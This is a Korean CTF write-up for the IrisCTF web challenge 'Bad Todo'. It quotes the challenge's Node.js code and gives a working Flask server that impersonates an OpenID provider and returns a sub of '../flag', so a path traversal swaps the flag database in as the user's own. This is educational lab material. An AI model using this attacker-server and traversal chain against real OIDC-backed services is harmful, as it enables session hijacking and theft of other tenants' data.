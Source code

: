 # Bad Todo (247 Points) - 75 Solved
얘는 코드만 살짝 복잡할 뿐, 막상 풀이 자체는 쉽다.
먼저 FLAG위치를 살펴보기 위해선 prime_flag.js를 살펴보면 된다.

```
import { promises as fs, existsSync } from "fs";
import { createClient } from "@libsql/client";

export async function primeFlag() {
    if (existsSync(process.env.STORAGE_LOCATION + "/flag")) {
        await fs.chmod(process.env.STORAGE_LOCATION + "/flag", 0o700);
        await fs.rm(process.env.STORAGE_LOCATION + "/flag");
    }
    
    const client = createClient({
        url: `file://${process.env.STORAGE_LOCATION}/flag`
    });

    await client.execute("CREATE TABLE todos(text TEXT NOT NULL, done BOOLEAN)");
    await client.execute("INSERT INTO todos(text, done) VALUES(?, ?)", [process.env.FLAG, true]);
    await client.close();

    await fs.chmod(process.env.STORAGE_LOCATION + "/flag", 0o400);
}
```
FLAG환경변수를 가져와서 STORAGE_LOCATION/flag에 넣고 있다.
STORAGE_LOCATION위치는 .env파일에 `/opt/bad-todo/storage` 로 나와있다.
즉, /opt/bad-todo/storage/flag라는 db file에 flag값을 저장한다.

여기까지 파악해두고, app.js로 가면 다음과 같은 경로를 볼 수 있다.
```
app.post("/start", asyncHandler(async (req, res) => {
    let response = null;
    try {
        response = await safeJson(req.body.issuer + "/.well-known/openid-configuration");
    } catch(e) {
        res.sendStatus(400);
        res.write("Invalid OpenID configuration ;_;");
        res.end();
        return;
    }
    if (response && response.issuer && response.authorization_endpoint && response.token_endpoint && response.userinfo_endpoint) {
        const session = await newSession(req.body.issuer, req.body.client_id);
        console.log(session);

        const search = new URLSearchParams();
        search.append("client_id", req.body.client_id);
        search.append("redirect_uri", process.env.BASE + "/auth_redirect");
        search.append("scope", "openid");
        search.append("response_type", "code");
        search.append("state", session);

        
        res.setHeader("Set-Cookie", `session=${session}; HttpOnly; Max-Age=3600; SameSite=Lax; Secure`);
        res.setHeader("Location", `${response.authorization_endpoint}?${search.toString()}`)
        res.sendStatus(302);
        
    } else {
        res.sendStatus(400);
        res.write("Invalid OpenID configuration ;_;");
        res.end();
    }
}));
```
`req.body.issuer + "/.well-known/openid-configuration"`에서 반환하는 값을 정보들로 사용하고 있는데 issuer은 safe_fetch.js코드를 보면 알 수 있듯이 `https://`스킴이면은 모든 허용한다.
아래는 safe_fetch.js코드이다.
```
export async function safeFetch(url, params) {
    const urlParsed = new URL(url);
    if (urlParsed.protocol !== "https:") throw new Error("use https");

    const resolved = await dns.resolve(urlParsed.host);
    const isOk = resolved.every(ip => {
        const parsed = ipaddr.parse(ip);
        const match = ipaddr.subnetMatch(parsed, unsafeIps, "ok");

        return match === "ok";
    });

    if (!isOk) throw new Error("unsafe url");
    
    return await fetch(url, params);
}

export async function safeJson(url, params) {
    const response = await safeFetch(url, params);

    if (response.status !== 200) return false;
    if (!response.body) return false;

    const reader = response.body.getReader();

    const data = await cappedReader(reader, 0xFFFF);
    const decoder = new TextDecoder();
    const str = decoder.decode(data);

    return JSON.parse(str);
}
```
따라서 issuer을 내 ip로 해서 요청을 보낼 수 있다.

그리고 아래는 app.js의 /auth_redirect경로 부분이다.
```
app.get("/auth_redirect", asyncHandler(async (req, res) => {
    if (!req.cookies.session) return res.end("No session");
    if (req.cookies.session !== req.query.state) return res.end("Bad state");
    if (req.query.error) {
        return res.end("identity provider gave us an error.");
    }
    
    const sessionDetails = await lookupSession(req.cookies.session);
    const response = await safeJson(sessionDetails.idpUrl + "/.well-known/openid-configuration");
    if (!response.token_endpoint) return res.end("No token endpoint");
    if (!response.userinfo_endpoint) return res.end("No user info endpoint");

    const search = new URLSearchParams();
    search.append("grant_type", "authorization_code");
    search.append("code", req.query.code);
    search.append("redirect_uri", process.env.BASE + "/auth_redirect");
    search.append("client_id", sessionDetails.clientId);
    
    const tokenResponse = await safeJson(response.token_endpoint, {
        method: "POST",
        body: search.toString(),
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        }
    });

    if (!tokenResponse || !tokenResponse.access_token || !tokenResponse.token_type) return res.end("Bad token response");

    const userInfo = await safeJson(response.userinfo_endpoint, {
        headers: {
            "Authorization": `${tokenResponse.token_type} ${tokenResponse.access_token}`
        }
    });

    if (!userInfo || !userInfo.sub) return res.end("user has no sub");

    await successfulLogin(req.cookies.session, userInfo);
    res.setHeader("Location", `/`)
    res.sendStatus(302);
}));
```
코드를 보면은 위에 내 ip에서 얻은 json값을 파싱해서 token_endpoint에 POST로 요청을 보낸다.그 후 access_token과 token_type이 있으면 통과를 하니 여기서도 token_endpoint를 내 서버로 지정하고 access_token과 token_type을 반환할 수 있게 한다.
그 다음은 userinfo_endpoint에 요청을 보내서 userInfo에 저장하고 userInfo.sub이 있는지 확인한다.
userinfo_endpoint도 마찬가지로 내 서버로 조작해서 sub값을 마으대로 조작할 수 있다.
그러면 이제 마지막 successfullLogin함수로 가보겠다.

```
export async function successfulLogin(session, metadata) {
    await client.execute("UPDATE sessions SET userId = ?, userMetadata = ? WHERE id = ?", [metadata.sub, JSON.stringify(metadata), session]);
}
```
sub값을 userId에 넣고
storage.js의 getStoragePath함수로 가보면은
```
export function sanitizePath(base) {
    const normalized = path.normalize(path.join(process.env.STORAGE_LOCATION, base));
    const relative = path.relative(process.env.STORAGE_LOCATION, normalized);
    if (relative.includes("..")) throw new Error("Path insane");

    const parent = path.dirname(normalized);
    mkdirSync(parent, { recursive: true });
    
    return normalized;
}

export function getStoragePath(idp, sub) {
    const first2 = sub.substring(0, 2);
    const rest = sub.substring(2);

    const path = `${sha256sum(idp)}/${encodeURIComponent(first2)}/${encodeURIComponent(rest)}`;
    return sanitizePath(path);
}
```
해당 id값을 다시 sub로 활용하여 db file위치를 반환하고 있다.
이때 sanitizePath를 통해 STORAGE_LOCATION 즉, /opt/bad-todo/storage보다 상위 폴더로 접근하려 하면 차단하는데
우리가 원하는건 flag이기 때문에 상위폴더로 갈 필요가 없고 ../flag를 사용해서 flag db file을 내 db file인 것 처럼 바꿔 끼워넣으면 된다.

아래는 위의 조건들을 모두 만족하게 하여 내 서버에 돌린 코드이다.
```
from flask import Flask, jsonify, Response
import requests

app = Flask(__name__)

@app.route('/.well-known/openid-configuration', methods=['GET'])
def gopher_test():
    return "{\"issuer\":\"aa\", \"authorization_endpoint\":\"b\", \"token_endpoint\":\"https://qweee.run.goorm.app\", \"userinfo_endpoint\":\"https://qweee.run.goorm.app/sub\"}"

@app.route('/', methods=['POST'])
def post():
    return "{\"access_token\":\"hh\", \"token_type\":\"ce\"}"

@app.route('/sub', methods=['GET'])
def post2():
    ascii_char = chr(255)
    return """
    {"name":"ccc", "sub":"../flag"}
    """

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

아래는 익스 과정이다.

1. 위의 코드를 내 서버에 띄운다.
2. /start에 내 서버 url을 담은 요청을 날린다.
![image](https://github.com/user-attachments/assets/9eda0690-e1f1-4d31-8a3c-ade00c5df723)
3. /start에서 받은 session값을 쿠키와 state에 담고 /auth_redirect로 요청한다.
![image](https://github.com/user-attachments/assets/91755535-1c9c-473e-9f36-41da3fdede60)
4. 해당 세션값을 가지고 메인페이지로 가면 flag db가 내 db로 끼워지게 되어 있는걸 확인할 수 있고 flag를 획득 가능하다.
![image](https://github.com/user-attachments/assets/fc1be0db-cc36-4911-b2af-0e6775669b78)


**FLAG** : `irisctf{per_tenant_databases_are_a_cool_concept_indeed}`

